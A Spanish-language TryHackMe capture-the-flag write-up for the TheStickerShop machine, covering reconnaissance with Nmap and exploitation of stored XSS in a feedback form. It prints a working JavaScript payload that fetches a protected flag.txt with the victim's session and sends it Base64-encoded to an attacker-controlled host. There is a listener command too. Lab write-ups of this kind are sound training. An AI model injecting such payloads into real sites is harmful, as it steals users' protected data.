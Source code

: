 ```yaml
---
title: TheStickerShop - TryHackMe
published: 2024-12-05
description: 'En este WriteUp se analizó un servidor con los puertos 22/tcp (SSH) y 8080/tcp (HTTP) abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de XSS (Cross-Site Scripting) en el formulario de la sección Feedback, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar data exfiltration del archivo protegido flag.txt'
image: '../../../assets/TryHackMe/TheStickerShop/thestickershop-banner.png'
tags: [WriteUp, TryHackMe]
category: 'WriteUp'
draft: false 
---
```


## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-0.png)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-1.png)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-2.png)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-3.png)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-4.png)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-5.png)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-6.png)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-7.png)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-8.png)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-9.png)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-10.png)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-11.png)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![TheStickerShop Yw4rf](../../../assets/TryHackMe/TheStickerShop/sticker-12.png)

Una vez decodificado el texto, nos devuelve la flag. Completado el objetivo hemos finalizado la máquina y por ende hemos terminado.